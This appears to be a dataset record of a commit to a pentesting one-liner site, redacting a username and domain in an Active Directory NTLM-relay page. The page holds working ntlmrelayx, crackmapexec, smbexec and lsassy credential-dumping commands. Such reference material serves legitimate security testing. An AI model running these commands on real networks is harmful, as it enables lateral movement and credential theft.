

Before and after one commit to onvio/onvio.github.io, a Jekyll site: the page built from _oneliners/AD - ntlmrelayx.py - Socks mode to relay multiple SMB requests later.md, in a window 1280 px wide, cut to the strip 187-1015 px from the top of the page. Shown: the top 804 px of the strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Hackerbible

```diff
--- a/_oneliners/AD - ntlmrelayx.py - Socks mode to relay multiple SMB requests later.md
+++ b/_oneliners/AD - ntlmrelayx.py - Socks mode to relay multiple SMB requests later.md
@@ -17,11 +17,11 @@ description: |
 
   now you can relay traffic through the socks proxy e.g:
 
-  	proxychains crackmapexec smb 10.1.0.73 -u ppaalm -p '' -d paragon
+  	proxychains crackmapexec smb 10.1.0.73 -u <user> -p '' -d <domain>
 
-    proxychains smbexec.py -no-pass paragon/ppaalm@10.1.0.160
+    proxychains smbexec.py -no-pass <domain>/<user>@10.1.0.160
 
-    proxychains lsassy 10.1.0.160 -u ppaalm -d paragon
+    proxychains lsassy 10.1.0.160 -u <user> -d <domain>
 
 command: |
   ntlmrelayx.py -tf targets.txt -socks -smb2support
```
